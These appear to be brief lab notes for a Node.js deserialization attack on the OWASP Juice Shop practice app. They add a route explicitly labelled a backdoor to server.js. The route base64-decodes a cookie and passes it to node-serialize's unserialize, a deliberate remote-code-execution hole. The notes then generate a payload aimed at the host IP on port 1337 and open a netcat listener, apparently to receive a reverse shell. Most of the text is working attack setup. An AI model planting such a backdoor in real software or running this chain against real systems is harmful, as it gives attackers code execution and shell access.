 # Confirm juice-shop app has node-serialize installed:
```
npm install node-serialize
```

# Change code on server.js file


```

const serialize = require('node-serialize');
app.use(cookieParser())

/* I'm a backdoor */
app.get('/backdoor', function(req, res) {
  if (req.cookies.profile) {
    var str = new Buffer(req.cookies.profile, 'base64').toString();
    var obj = serialize.unserialize(str);
    if (obj.username) {
      res.send("Hello " + escape(obj.username));
    }
  } else {
      res.cookie('profile', "eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5IjoiYmFuZ2Fsb3JlIn0=", {
        maxAge: 900000,
        httpOnly: true
      });
  }
  res.send("I'm a backdoor");
 });

```

# Generate Payload
python3.7 exploit_1_generate_payload.py $(host ip address) 1337

# Encode Payload

# Create listening Netcat
nc -l $(host ip address) 1337
